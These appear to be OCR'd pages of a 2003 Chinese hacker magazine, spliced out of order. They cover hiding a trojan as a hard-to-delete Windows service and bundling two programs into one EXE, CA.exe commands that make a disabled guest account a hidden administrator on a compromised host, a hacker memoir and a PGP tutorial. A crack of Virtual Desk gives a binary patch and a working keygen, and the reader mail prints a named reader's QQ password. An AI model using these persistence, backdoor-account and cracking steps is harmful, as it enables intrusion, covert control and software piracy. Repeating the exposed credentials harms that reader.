的好处就是写起来简单，释放也快，缺点很明显，对于写捆绑程序来说文件太大。

- 3. 直接把程序化成2进制代码，保存在文件的静态缓冲区中（char类型的全局变量），这种方式虽然不会缩短文件的大小，但是不容易出错，且更简单，只要定义了数组，把文件化成2进制数据拷贝进去，就可以了，呵呵。

以上几种方法，大家自己选择，我推荐使用方法3，因为其比较简单，而方法1和2就显得有点大材小用了。

笔者水平有限，文章如果有什么错误的地方，欢迎讨论。

以上就是运行上面的那个程序的寄生体要执行的代码了，其中服务名字要和上面本体的服务名字相对应。这样，就完成了启动工作，不写注册表，干净，用服务来启动，不是老鸟，还一时半会找不到。就算是找到了，手工方式删除不了哦。大家可以看看“控制面板->管理工具->服务”里面，就是你机器的全部服务了，很多，你试试删除一个服务看看，是不是没有删除选项？

## 补充：

写成服务，要成功地安装并执行程序，这大体要2个程序。对于只有一个EXE的程序来讲，安装就比较劳动了。不过，索性我们写出2个程序，用包裹的方式，这样比较简单。也有很多好处：Server写起来简单，本体和寄生体大小不同，不容易发现，寄生体可以把事先要做的事情全部做完等等。下面介绍几种可以把两个程序合成为一个EXE的方法（很多捆绑软件就是这么写出来的）。当然，我们这里只需量身定做，不用写得那么复杂。

- 1. 先作一个文件头（rc文件），把需要包裹的程序和这个头文件一起包裹（BCB中，Bin目录下面有一个Brcc32.exe程序就是用来生成头文件的，Delphi也有），这样做的好处是捆绑生成的文件很小（基本上就是多了一个头文件的大小），但写起来麻烦了点（相对于下面的方法来说不麻烦）。

- 2. 直接把数据添加到自身的尾巴后面，这样做

（上接第42页）

们先用小榕的超级用户克隆程序CA.exe，将被禁用的用户guest克隆成超级用户（当然克隆之后，被禁用的用户guest就被自动激活了）方法如下：

```bash
ca.exe \\肉鸡ip webdav 用户密码guest guest密码
```

- (3) 然后输入命令：`net user guest /active:no`，这样用户guest就被禁用了（其实没有），当然你也可以将用户guest换成其他存在的被禁用的用户。

- (4) 这时如果你在图形界面下看账户管理器中的用户时，会发现用户guest被禁用了；但他却拥有超级用户权限。

- (5) 这时我们就可以把刚刚建立的webdav用户给删了。命令如下：

```bash
net user webdav /delete
```

到此，入侵告一段落。但自古以来有攻就有防，我们如何简单配置服务器，以达到补上漏洞的目的呢？当然，我们可以打上微软提供的补丁，但我们也要尝试自己动手的乐趣。我们可用IIS Lockdown简单地达到防护的目的。至于IIS Lockdown锁定工具的使用，大家可以参考《黑客防线》2003年第3期中《系统的补丁和安全》里面有详细的介绍。对于安全意识较强的网管来说，当时就按照杂志的引导，是可以最大限度地减少因为这个漏洞而带来的损失的！

# 我在网吧的日子

### ——谁黑客生涯

文/kingsworder

1999年中国的网络大潮终于到了我所在的小城镇，每个人都有他上网的理由，我也一样，但是或许我和别人的又有许多的不同，曾经一句：“今天你Q了吗？”风靡全国，虽然我没有走进这股“旋涡”中去，但却是带着更加可怕的目的进入的互联网。

初中的时候，看过一篇《高手的决战》文章，文中的主角用他那高超的技术、娴熟的手法，把美国的中情局、国防部玩于掌中，虽然最终主角米特尼克还是被捕了。但是，他那在网络中自由的往来，无所不能的技术，他的那种狂妄，入侵时的快感，仍然历历在目，而也就从那时候起，他成了我的偶像；也就是从那时候起，只要是听到关于黑客的报道，哪怕只有那么一点点也都觉得是那么的兴奋。

在网海中寻觅，带着激情，带着幻想。一次，偶尔在网易BBS上见到个黑客站点，当时真是说不出的激动（那时还只是只菜鸟，什么都不会），在那个名叫XHACK的站点上，我开始了和黑客的零距离接触。在那看到了COOLFIRE的黑客教材，还有一些国内的高手所写的东西。当时虽然看不懂，心里还是很高兴，至少也知道了黑客是如何入侵的，或许是站长太懒，或者站长自己也同样是只菜鸟，网站的更新实在太慢了，以致最后XHACK就再也上不去了。失去了XHACK的我就如同掉了魂似的。

不久，我找到了几个比XHACK好的站点：天天、20CN和黑客要塞，在这两个地方我开始了系统化的黑客技术学习，由于网站的规划很好，更主要的是推荐入门书籍。在这里，我认识了中国的米特尼克“冰人”，为他的遭遇而悲伤；在这里，我认识了“小榕”，了解了他的人生；在这里，我更认识了现今中国安全的代表人物“袁哥”。

从他们的身上我看到了希望，因为黑客技术不是一蹴无就能够掌握的，随着学习的东西越来越多，又没有计算机自己实验，不久就会把它全数还给作者，这就成一大难题。同时为了能够把网上好的资料一起带走，曾经有过竟然用一半生活费一把文章打印出来的壮举。

俗话说：“没有三两三，岂敢上梁山。”可是当时没有三两三的我也同样上了梁山。看高手入侵的文章多了，感受太深，自己就也想试试自己的身手。而时下最流行的正是QQ聊天，作为第一次行动，我那邪恶的黑手决定伸向它，靠着网站的工具轻易就盗到了很多的号码，可是号码太多反而是一种累赘，贪之无用，弃之可惜。于是当时就把好些的号码申请了保护，要是以后自己想要的话还有机会。看到竟然能够轻易地就盗到资料号码，不免的翘起来，自以为已经成为一个黑客了（其实真正的黑客决不会做这种低级的事情）。而当时，入侵主机才是我最大的心愿。

上了梁山，不闯出一番“事业”，就算不上了。趁着月黑风高的夜晚，拿着个扫描器，对国内的互联网四处扫荡，网站没扫到竟发生了一件可怕的事情。在网吧里，一个服务员来到我的身边，把我带到了服务台，才发现原来整家网吧已经线掉线，而主机上明确地记录有我的数据信息，想辩驳都已不可能。一顿训斥之后，我被当作个不受欢迎的客人给打发走了。而也正是他们的训斥，我开始了报复性的入侵，那是后事。

从网吧出来，我并没有一点愧疚，毕竟我是在用钱交换服务。这家网吧不欢迎，还有那么多网吧，选了家好的网吧继续革命。那时的国内网络安全性实在太差，没多久就找到了一大片主机，自以为得计，可最终没有侵入一台主机。究其原因，还是眼高手低。幸好我还是有点自知之明，入侵不了就收手，不在原地踏步，浪费时间。

从那以后我为了“报复”那家网吧，可以说是不分黑夜白天的研究所谓的黑客技术，每当困倦的时候想想当时受气的样子，就又充满斗志。在黑客的手册内有一条不变的定理——“自学”。在黑客界里，单靠别人的帮助，那么你就算不上一个真正的黑客了。三个月内我几乎没有踏进网吧一步，因为我手头上的资料已经绝对够一年的学习所用。

终于，该来的还是要来的，朋友到那家网吧上网，通过QQ我获得了那家网吧的网络地址。利用当时流行的一个2000漏洞，我没花多大脑筋就获得了那网吧服务器的控制权。那么轻易地得到管理员权限让我真的不知道该如何是好。而此时我只要发出一条命令，那服务器就会玩完。可当时我并没有那样做，或许是时间的推移，对那网吧已经没有那么讨厌，或许我还要感谢他们，由于他们的训斥，以及对他们的仇恨，我才会下那么大的决心学习技术。事后，朋友问我情况如何，我没有告诉他真实情况。

2001年的4月1日，一个不能忘记的日子——“中美撞机事件”发生。就如当年“南联盟事件”一样，举国上下声讨美国，黑客界或许是呼声最高的，这真是一种悲哀。而此时的我已经混到了鹰派联盟某地方站长的职务，联盟上面的元老都已经发出作战命令的邮件，唯一要等的只是时间的问题。而红盟也不甘清静，同样传出了网络攻击的消息。虽然已临近高考，但是作为一个中国热血青年，决不会轻易就此罢休。“五·一”当大家都在快快乐乐地享受着节日的时候，一场没有硝烟的战争在网络上打响了。由于我的技术在联盟里排不上号，所以分到的任务只是无关紧要的工作，而联盟中的重要成员有些已经把国旗给挂上去了。夜很快就过去了，联盟攻陷了几十个出名站点，而其他各组织战果也不少。我则无聊地为国内的入侵国内服务器打补丁，确保其安全性。但是国内的低质量主机太多，一个人是无论如何也不可能把它做完了。随着高考的日子越来越近，以至于我已经没有多少时间来管理网站，我终于还是把站长的职务给辞掉了。因为要和高考来一场战争，一场关系到自己命运的战争。

当我在努力学习的时候，我开始对我所谓的黑客生活产生了一种怀疑，或许我更适合走正道，所谓的黑客，是否真的有意义？但我当时没有多少时间去考虑。9月，一个不算丰收的日子，想不到得到的专业竟然和计算机毫不相关。当时真是想不开，可这已是事实，是无法改变的。而随着时间的推移，当年没看的书籍，现在可以毫无顾忌地钻研。但越是这样越对所谓的黑客生活产生怀疑，真正的黑客他只对技术的东西感兴趣，他决不会加入到所谓的政治领域内。而我们所谓的黑客、红客却总是拿着别人的东西来攻击别人，发动着入侵，而真正需要人去大量研究的科学问题却没有多少人感兴趣。真正的黑客他可以足不出户而不饿肚子。但是我做不到，很多人也做不到。真正的黑客也很低调，而我们的黑客却志气高昂、名满江湖。

或许是当初真的太年轻、太幼稚，而真正让我脱离黑客圈的确是因为一篇关于现实主义的讨论文章，文章告诉了我什么才是人生。从那以后，我虽然常常逛到黑客论坛，每当看到比我还菜的新手，却又不愿意实事求是地去学习，我总想劝他们放下这个不切实际的幻想，找一个真正的属于自己的理想。可我没有那么做，因为他们不会听我的，因为他们同样还很年轻。

# 软件加密解密

## 完全接触

文／彭文波

互联网为我们提供了一个开放的、跨越国界的信息高速公路，在网上收发电子邮件和传输文件十分方便、快捷，但文件或邮件的安全问题也显得日益突出。大家都知道，在 Internet 上传输的电子邮件和文件是不加密的，如果你自己不保护自己的信息，第三者就会轻易获知你的所有机密。再比如，有些十分重要的文件，如果在常用的 WINZIP、WORD、ARJ、EXCEL 等软件的加密功能都可被破解时，我们有更好的选择吗？要解决这些问题，目前最好的办法是对电子邮件进行加密。对于一般用户来说，通过 PGP 这个软件对自己的私人文件、邮件进行加密是一个很不错的方法。PGP 采用公钥加密体系，用加密算法生成两个密匙，分别作为公钥和私钥。公匙用来加密，是公开的。私匙用来解密，就好像我们开门用的钥匙一样，私匙由用户自己保存。除此之外，你还可和同样装有 PGP 软件的朋友互相传递加密文件，这样进一步提高了安全性。下面，我们通过 PGP Freeware 6.5.3 这个软件来了解常用的加解密实现原理及使用方法。

软件下载地址为：http://www.pgpi.org/cgi/download.cgi?filename=PGPfreeware_6.5.3.zip。

## 一、加密解密基础知识

就像锁门一样，要想加密一封电子邮件，你必须使用钥匙，它是将你的讯息内容变成密文的工具。要解决这样的问题，目前最好的解决方法是使用公开密钥加密系统，即我们经常听说的 PKI 系统，比较知名的招商银行网上支付系统就使用了这种技术。在 PKI 系统中，由一个大家普遍信任的人或机构担当中立的第三方，这个第三方被称为“认证权威”，即 CA 中心。CA 中心的核心职能是发放和管理用户的数字安全证书。CA 中心在整个电子商务及电子政务环境中处于至关重要的位置，它是整个信任链的起点，这样大家只要有一份他的公钥就行了。而认证个人的公钥是很方便的，因为他广泛提供这个服务，因而他的公钥也广泛流传。现在公认的有效方法是通过密钥分配中心 KDC 来管理和分配公开密钥，这对商业的网络化提供了可靠的保障。

当然，个人用户可以不需要进行机构认证，而通过私人方式进行密钥转介，这体现了人们交往的自然状态。公开密钥加密系统克服了传统加密体系的密钥分配过程中难以保密的缺点。而 PGP 采用公钥介绍机制不仅解决了公钥体制的缺点，而且还在其基础上进行了发展。此种系统给每位使用者两个钥匙：一个是公开密钥，另一个则是私人密钥。这两个钥匙实际上是同一个钥匙的两部分：一个可以打开另一个锁上的部分。因此，人们往往将它们称做钥匙组（keypair），你必须拥有两个钥匙，才能加密电子邮件。你可以将自己的公开钥匙，给任何一位收件人。你甚至可以将公开钥匙贮存在公开服务器（publicserver）上，或是自己的网页里。这样的话，任何人都可以透过网络取得你的公开钥匙。不过，私人钥匙只能由你一个人拥有。假如你用某种协议加密自己的讯息，收件人必须使用拥有相同协议的软件。图 1 是一个使用公开密钥加密系统进行信息传输的过程。

要实现上面的过程，我们可以使用 PGP 加密软件，这是美国 Network Associate Inc. 公司出产的免费软件，它的全称是 Pretty Good Privacy。

PGP 包括伪随机数生成器（PRNG），它对用户击键的时间间隔进行抽样，作为其生成种子值所需的一部分。它还包括分析以及（如果需要的话）随后压缩文本的算法。它是一个基于 RSA 公匙加密体系的邮件加密软件，可以用它对你的邮件保密以防止非授权者阅读，它还能对你的邮件加上数字签名从而使收信人可以确信邮件是你发来的。它让你可以安全地和你从未见过的人们通讯，事先并不需要任何保密的渠道用来传递密匙。

PGP 使用 PRNG 来生成种子值，种子值用于创建会话密钥。会话密钥用来通过使用对称密码来加密明文。然后使用预期接收方的公钥对会话密钥进行加密并将该捆绑包发送出去。可选地，PGP 也将使用发送方私钥加密的消息摘要创建数字签名。大多数数字证书遵守 X.509 标准，因此，至少从理论上说它们在不同应用程序间是可相互交换的。然而，PGP 认为 X.509 某些方面存在不足，并且已开发了一套类似的系统，在 PGP 看来这套系统弥补了这些不足。PGP 同时支持 PGP 和 X.509 格式。

PGP 现在也提供三重 DES（Triple-DES）和 CAST 作为对称密码。还有从 RSA 到新形式密码的转变，新形式密码遵守 NIST 数字签名方案（NIST Digital Signature Scheme（DSS））——虽然仍然支持 RSA。同时，除了在 RSA 继续被使用的地方之外，MD5 已被散列函数替代；使用 DSS 时，采用的散列函数是 SHA。

PGP 密钥体系包含对称加密算法（IDEA）、非对称加密算法（RSA）、单向散列算法（MD5）以及随机数产生器（从用户击键频率产生伪随机数序列的种子），每种算法都是 PGP 不可分割的组成部分。

DES 是一个应用非常广泛的数据加密机制，目前有许多种硬件和软件可以实现。它使用一个特殊的算法和称之为钥匙的值将明文信息转换成密文（ciphertext），如果接收者知道钥匙，就可以使用它将密文转换成原始数据。所有加密系统的一个潜在弱点就是需要记住数据加密的钥匙，在这点上，类似于要记住口令。如果钥匙被非授权方记录下来，你的原始数据就可以被他人解读；如果忘记钥匙，连你自己也无法恢复原始数据。

RSA（Rivest–Shamir–Adleman）算法是一种基于大数不可能质因数分解假设的公钥体系。简单地说，就是找两个很大的质数，一个公开给世界，称之为“公钥”，另一个不告诉任何人，称之为“私钥”。两把密钥互补——用公钥加密的密文可以用私钥解密，反过来也一样。假设 A 寄信给 B；他们知道对方的公钥。A 可用 B 的公钥加密邮件寄出，B 收到后用自己的私钥解出 A 的原文，这样就保证了邮件的安全性。

IDEA 算法是经过改进的传统算法。所谓传统算法就是用密钥加密明文，然后用同样的密钥解密。它的主要缺点是密钥的传递渠道解决不了安全性问题，不能满足网络环境邮件加密的需要。

- 1. 使用 PGP 对邮件加密，可防止非法阅读。
2. 能给加密的邮件追加上数字签名，从而使收信人进一步确信邮件的发送者，而事先不需要任何保密的渠道用来传递密钥。
3. 可以实现只签名而不加密，适用于发表公开声明时证实声明人身份，也可防止声明人抵赖，这一点在商业领域有很大的应用前景。
4. 能够加密文件，包括图形文件、声音文件以及其他各类文件。
5. 利用 PGP 代替 Uuencode 生成 RADIX64（就是 MIME 的 BASE64 格式）的编码文件。

## 二、软件安装及密钥设置

PGP 的安装很简单，和平时的软件安装一样。你可以选择要安装的选件，如果选择了“PGPnet Virtual Private Networking”虚拟网，再选择相应的 Plugin（插件），如“PGP Microsoft Outlook Express Plugin”，就可以在 Outlook Express 中直接用 PGP 加密邮件，这里指的是加密邮件的内容。

要进行正常的加密解密工作，每一个用户都要有自己的钥匙，即必须生成自己的密钥对，这是使用 PGP 加密的第一步，通常在安装过程中完成。使用 PGP 之前，首先需要生成一对密钥，这一对密钥其实是同时生成的，其中的一个我们称为公钥，意思是公共的密钥，你可以把它分发给你的朋友们，让他们用这个密钥来加密文件，另一个我们称为私钥，这个密钥由用户保存，用户是用这个密钥来解开加密文件的。打开“开始”菜单中“PGP”目录下的“PGP KEYS”，可看到以下的公钥，如图2所示。

图2

第一步，选择“Keys”菜单中的“New Key”，PGP会生成一对密钥，你可以用它来加密文件或对数字文件进行签名。选择“Next（下一步）”。

第二步，PGP 会要求你输入全名和邮件地址。虽然真实的姓名不是必须的，但是输入一个你的朋友看得懂的名字，这样会使他们在加密时很快找到想要的密钥。这些名字称为使用者识别码（User ID），在 Email Address 栏填写你电子邮件信箱的地址，如图3所示。

图3

第三步，请选择一种加密类型。在 PGP6.5.3 这个版本中，我们选择 RSA 这种加密方式，如图4所示。读者朋友可以根据应用的实际情况灵活选择。

图4

第四步，指定密钥的长度。通常来说，位数越大被解密的可能性越小就越安全，但是在执行解密和加密时会需要更多的时间，钥匙可以选用 PGP 所预设提供的 3 种钥匙大小，分别为 1024、1536 与 2048 位，也可以在此输入所需的位元数字后按下 Enter 键，自行指定钥匙的大小。笔者建议选用 PGP 所预设的其中一种，因有些不同版本的 PGP 不能接受不同于这 3 种大小的钥匙与其所加密的文件。当然，体积越大的钥匙保密程度越高，但执行起来速度也越慢。默认情况下选择 2048 位。

第五步，PGP 会问你密钥的过期日期，可以选择永不过期或者指定一个日期作为过期的界限。

第六步，请重复输入你的密码。建议你的密码大于 8 位，并且最好包括大小写、空格、数字、标点符号等，为了方便记忆你可以用一句话作为你的密钥，如 Amy is 12 years old. 等。最妙的是，PGP 支持用中文作为密码，所以你也可以输入“我爱你”作为和女朋友互通往来的密码啦。其中，“Hide Typing”指示是否显示键入的密码。你可以输入任何数字、字母、符号等，但一些无法显示出来的特殊字元将无法被接受，如图5所示。要注意的是，英文字母的大小写是被 PGP 视为不同的两个字。关于密码的选用与注意事项方式，笔者有一些建议：

- 1. 如果你不选择好的密码来对你的私人钥匙加密的话，PGP 所提供的所有保密特性将一无是处。
- 2. 很多人使用他们的生日、电话号码、情人的名字或一些容易被猜到的字句，这样安全性就很差。
- 3. 对于产生好的密码有很多种建议，但只有完全随机地选择密码中的字元，才能达到终极保密的境界。
- 4. 建议最少的通行码随机组合是 8 个字母与数字，12 个将会是更好的选择。如果你愿意，还可以在你的密码中混合大小写的字母，以减低要达到相同保密程度所需要的字元数。

如此才能进一步送出给他的加密信件。因此一直“下一步”就可以完成了。在 PGPKey 中，双击生成的密钥，我们可以看到如图 6 所示的信息。

图6

图5

第七步，接下来 PGP 会花一点点时间来生成你的密钥，也就是给你产生钥匙。然后会问你是否想把你的公共密钥发送到服务器上去，确定这把钥匙没有问题，我们可以这么做。

因为你要和多位朋友之间进行通讯，就必须发布自己的公开钥匙。如果不这样做的话，将没有人可以使用 PGP 加密信件或档案给你；举例来说，若你的女朋友要发送加密信件给你，必须要有你的公开钥匙，用你的公开钥匙来加密，如此你在收到加密信件时，才能用你的私人的钥匙解开。若你的女朋友要发送加密邮件给你时，是使用你的女朋友或其他人的公开钥匙，那这封加密信件便只有你的女朋友或相对的某人才能够解得开了。这是呈现一种一对一的关系，所以让越多人拿到你的公开钥匙越好，这样也就会有越多的人可以送加密信件给你了。当然，你散播了自己的公开钥匙，别人也会散播，所以当你由上述方法得到别人的公开钥匙后，第一件事便是将之加入你的公开钥匙圈中，如此才能进一步送出给他的加密信件。

第八步，把你的公用密钥发给你的朋友。用快捷键 Ctrl+E 或者菜单 “keys” 中的 “Export” 将你的密钥导出为扩展名为 asc 或 txt 的文件，将它发给你的朋友们。对方收到后，可以用快捷键 Ctrl+M 或菜单 “keys” 中的 “import” 导入。

如果上述步骤都完成的话，你的 PGP 目录下应该有 pubring.pkr 与 secring.skr 这两个文件，若有，则你已经产生自己的公钥与私钥了。前者（pubring）称为公钥，相当于锁一样，你可以将此文件（pubring）传到 PGP 的服务器上（horowitz.surfnet.nl，port:11371），这样任何人都可以取到它，当然最好的方法是 E-mail 发送给你的朋友（文件只有 2K 多大）。后者（secring）称为私钥，把它小心收藏好，就像保管你保险箱里面的钥匙一样。准备工作做好后，现在我们就可以开始下面的工作了。

## 三、安全方面的应用

- 1. 通过 PGP 实现电子邮件的加密、解密和数字签名

如果我们现在有一封安全级别非常高的邮件要发送，但又害怕别人从网络上截取我们的信息，怎么办？PGP 这个目前几乎最流行的公钥加密软件包可以帮助我们解决这个问题。PGP 是目前最常用的加密软件，你可以在 Outlook、Foxmail 等电子邮件软件上使用 PGP 加密邮件。目前最为先进的加密技术，使用 PGP 加密软件，特别是电子邮件中，可以有效地保证通信安全，从而保证了网上用户的利益。举例来说，如果使用 Outlook Express，一样可以忽略 Outlook Express 内建的 S/MIME 加密，而使用 PGP 来加密自己的信息。只要你与收件人都有 PGP，就能让自己的邮件拥有目前最安全的加密层次。

如果要在 Outlook Express 或 Outlook 中直接对邮件进行加密，可在写新邮件时点击工具栏中的图标 Encrypt（PGP），如图 7 所示。

然后点击“发送”按钮，当邮件写完发送时，PGP 会弹出对话框请你选择密钥，如图 8 所示。再选择“OK”按钮，发送即可。接下来我们可以到接受方的邮箱查看，出现如图 9 所示的密文。

如果你是接受邮件的一方，现在该如何查看电子邮件的信息呢？也就是如何解密的问题。首先，在 Outlook 中，选择需要解密的密文，PGP 这个软件在下面的状态栏上有一个小图标，点击左键，我们选中 “Current Window” 中的 “Decrypt & Verify” 对邮件进行解密，如图 10 所示。

在弹出的“PGPtray”窗口中，我们选择自己的公钥，即自己的邮箱的 “Public Key”，输入相应的密码，如图 11 所示。然后选择“OK”按钮，即可将密文解密为我们真实的明文，如图 12 所示。

如果希望发出的信件或者文件不被冒名或篡改，PGP 6.5.3 还可实现加密后签名。收件人可使用你的公钥验证签名，避免了老版本中签名文件的明文状态，即只能保证不被篡改，不能加密传输的缺点。给文档进行签名与上面的方法类似，有兴趣的朋友可以按上面的步骤进行测试。

- 2. 给文件加密和解密

新建一个名字为“测试”的文本文档，当然，其他格式也可以。选择开始菜单中的 “Programs”，然后依次选择 “PGP” 中 “Pgp Tools” 选项，会出现如图 13 所示的工具条。

选择其中的“加密”按钮，找到名字为“测试”的按钮，然后选择“OK”按钮。在 “PGP tools” 对话框中，选择我们自己的私钥，即包含我们自己账户的钥匙进行加密，好比我们给自己的保险柜上锁。

现在我们会发现，在被加密的文件目录下，出现了一个加密的文件，如图 14 所示。如果需要解密的话，双击这个文件的图标，会弹出一个文件解密的对话框。输入密码并选择“OK”按钮，即可将这个文件解密。

作为加密和解密方面的标志性软件，PGP 目前已经发展到一个很高的技术级别，而且在很多安全性要求比较高的行业，如银行、证券、军事、政府等行业得到了广泛的使用，这里就不一一列举了。通过上面的原理和应用描述，我们可以了解到一个 PKI 系统的基本过程，由于它采用了审慎的密匙管理，即一种 RSA 和传统加密的杂合算法，用于数字签名的邮件文摘算法、加密前压缩等，还有一个良好的人机工程设计。因此，它对我们学习和详细了解网络安全知识及密码框架等知识将会有很大的好处。

Virtual Desk 是一款非常方便的软件，它可以让你按照自己的意愿设计多个自己喜欢的背景和图标。但是，好用的软件似乎总有一个特点：需要注册或者有功能限制。不知道究竟是因为软件好用引起 Cracker 们的兴趣，还是因为 Cracker 本身就有一种非常强烈的破解欲望。不管怎么说，好用的软件似乎总是难以逃脱被破解的命运，看来，“世上红颜多薄命” 是一点不假！

# 都是你自己惹的祸

## ——破解 Virtual Desk

文/老冯

- 破解实例：Virtual Desk
- 版本：version 1.1
- 公司网址：http://www.easyfp.com/virtualdesk.htm
- 破解工具：Softice + w32dasm

最初，我觉得这个软件提供的功能还不错，可以比较方便地进行不同的桌面切换，每个桌面可以拥有不同的背景和图标，和 Linux 下虚拟桌面很相似。但是我下载的是一个未注册的版本，每次打开时，它总是弹出一个 nag（烦人的对话框）。于是我决定破解它，呵呵，现在看来都是它自己惹的祸。

首先，得安装这个软件，运行后，在托盘对应图标上左键点击，出现下拉式菜单。选中 configuration，在弹出的窗口中可以找到 registration 标签。随意地输入一个注册码，我输……

## 人的注册码是：

RegisterName：fxl

RegisterCode：123456

按“确定”后，系统弹出标题为“Wrong registeration code”的错误消息框，太好了，快发现目标了。然后，用 w32dasm 反汇编 Visual Desk.exe，在“参考 -> 字符串数据参考”下找到那个提示错误信息的消息框，双击，OK，已经到了：

```
text
* Referenced by a (U)nconditional or (C)onditional
Jump at Address:
|:00403042(C)
|
:00403127 6A30                     push 00000030

* Possible StringData Ref from Data Obj ->"Registration Error"

:00403129 68E8584100               push 004158E8

* Possible StringData Ref from Data Obj ->"Wrong registeration code"

:0040312E 68D0584100               push 004158D0
:00403133 6A00                     push 00000000

* Reference To: USER32.MessageBoxA, Ord:01BEh

:00403135 FF1590324100             Call dword ptr [00413290]

```

看看上面的代码，这应该就是在注册码不合法的时候要输出的错误提示信息，这说明已经快接近目标了，往上看，看呵呵，在 00403042 处存在一个有条件跳转的交叉参考，而且仅有一处哦，不要错过才是！这说明我们已经找到了地方，可以稍稍激动一下！看看再说，直接转到“偏移：00403042”处：

```
text
:0040302B 8D4C241C                lea ecx, dword ptr [esp+1C]
:0040302F 89442418                mov dword ptr [esp+18], eax
:00403033 51                      push ecx
:00403034 E827530000              call 00408360

```

```
text
:00403039 8B4C241C                mov ecx, dword ptr [esp+1C]
:0040303D 83C408                  add esp, 00000008
:00403040 3BC8                    cmp ecx, eax
:00403042 0F85DF000000            jne 00403127

```

看来直接改 jne 00403127 就可以了，我在 ultraedit 中用“909090909090”（6 个 nop 指令）代替 00403042 处的“0F85DF000000”，另存，重新打开，注册，OK，成功了。这可是真的激动了一次。再试一次如何？关闭，打开，傻眼了，那个 nag 框又出现了。一查看，注册窗口又恢复原样了，看来该软件在注册通过之后还进行了其他的检查的。嗯，应当看看在

```
text
:00403040 3BC8                    cmp ecx, eax
:00403042 0F85DF000000            jne 00403127
和
* Referenced by a (U)nconditional or (C)onditional
Jump at Address:
|:00403042(C)
|
:00403127 6A30                    push 00000030

```

之间的代码，这部分就应当是对“正确”的注册码进行处理的地方。看来这部分代码还不少，算了，转到“比较”之前的算法部分看看，用 Softice 设置如下断点：

bpx 40302b

在注册框输入名字：fxl 和注册码：123456，确定，这时 softice 弹出来了，OK，在

:0040302B 8D4C241C    lea ecx, dword ptr [esp+1C]

处停下来了，看看 ecx 所指的数据

d ecx

哇，“fxt”，这不是我刚才输入的注册名字吗？此时心中有点底了，再读读上面的代码。原来程序将输入名字传给了过程：00408360，过程返回后改变了 ecx 的值，并和 eax 比较，看来得看看子过程：00408360 了：

```
text
* Referenced by a CALL at Addresses:
|:00403034 , :00407068
|

```

```
asm
:00408360 56               push esi
:00408361 8B742408         mov esi, dword ptr [esp+08]
:00408365 57               push edi
:00408366 8BFE             mov edi, esi
:00408368 83C9FF           or ecx, FFFFFFFF
:0040836B 33C0             xor eax, eax
:0040836D F2               repnz
:0040836E AE               scasb
:0040836F F7D1             not ecx
:00408371 49               dec ecx
:00408372 33D2             xor edx, edx
:00408374 85C9             test ecx, ecx    ; 求出注册码项的字符串长度 = ecx
:00408376 7E0B             jle 00408383

* Referenced by a (U)nconditional or (C)onditional
  Jump at Address:
|:00408381(C)
|
:00408378 0FBE3C30         movsx edi, byte ptr [eax+esi]
:0040837C 03D7             add edx, edi
:0040837E 40               inc eax
:0040837F 3BC1             cmp eax, ecx
:00408381 7CF5             jl 00408378      ; 对注册码各个字符进行求和，和 = edx

* Referenced by a (U)nconditional or (C)onditional
  Jump at Address:
|:00408376(C)
|
:00408383 8D04D2           lea eax, dword ptr [edx+8*edx] ; eax = edx * 9
:00408386 5F               pop edi
:00408387 C1E004           shl eax, 04               ; eax = eax * 16
:0040838A 2BC2             sub eax, edx              ; eax = eax - edx
:0040838C 5E               pop esi
:0040838D 8D0480           lea eax, dword ptr [eax+4*eax] ; eax = eax * 5
:00408390 8D04C0           lea eax, dword ptr [eax+8*eax] ; eax = eax * 9
:00408393 D1E0             shl eax, 1                ; eax = eax * 2

```

```
asm
:00408395 2BC2             sub eax, edx      ; eax = eax - edx
:00408397 D1E0             shl eax, 1        ; eax = eax * 2
:00408399 C3               ret

```

读完上面的代码，立刻明白原来这段子程序是将名字项进行了求和，然后作了如下一些运算，并将最后的结果存放在 eax 中，设 x 就是输入的各个字符之和，则：

eax = (((x*9)*16-x)*5*9*2-x)*2 = x * 25738

eax 值有了。再看看 ecx，回头跟踪一下，它在数据单元 [esp + 1c]，查看这个地方：0x1e240，123456D!？这不是刚才输入的注册码？这么简单？简直不敢相信，老外用这么简单的东西来生成注册码吗？！再看看代码流程，确实将这两个结果在比较，还是试试看再说。于是用 C 语言写了一个注册机：

```c
int main()
{
    char RegisterName[20];
    int RegisterCode=0;

    scanf("%s", RegisterName);

    for(int i=0;i<strlen(RegisterName);i++)
        RegisterCode += RegisterName[i];
    RegisterCode *= 25738;
    printf("\n RegisterName is : %s \n", RegisterName);
    printf("RegisterCode is : %d \n", RegisterCode);

    return 0;
}
```

运行注册机，输入：fxt
输出：
RegisterName is :fxt
RegisterCode is : 8699444

注册试试，天啦，注册成功，不信，再在其他机子上试，还是一样。

# 编读互动

“非典”打乱了人们正常的生活，杂志社也不例外，这个月我们接到的读者来信、来电询问邮购的比以往增加了不少，很多读者为了“防非”，减少了外出，都在询问邮购方式，希望可以一期不漏的收集我们所有的刊物，这使得我们劲头更足，但是由于“非典”的影响，我们的杂志发出后，在邮局有不同程度的积压，使得邮寄周期比以往有所延长，给一些读者带来了不便，在此我们表示歉意，也希望各位读者能够谅解。

对于我们的作者，同样，样刊邮寄和稿费发放周期也比以往延期，我们希望各位还能继续我们，办好黑防。为了能够快速的把稿费发放到各位作者的手中，我们希望各作者能够办理招商银行的一卡通，在投稿时候，注明卡号和开户名以及你的详细地址，这样我们才能够以最快的速度发放稿费和样刊。

最后，希望我们的读者在非常时期减少外出，注意健康，远离非典！

湖北武汉网友caoyang789在“在线问答”版抱怨QQ被盗，他说“那个QQ号码是124406406，以前的密码是caoyang789”，yccl在“病毒专栏”版发贴说“我是一个新加坡的留学生，最近接二连三的被黑，什么都偷走了，QQ也是，不知道大家能不能帮我个忙？”冷血无悔在“在线问答”版发贴说“我的QQ已经申请了密码保护，不过邮箱因为是新浪的，所以密码保护资料没办法送过来，而我又忘记了身份证号码，哪位大哥告诉我怎么办了！！”

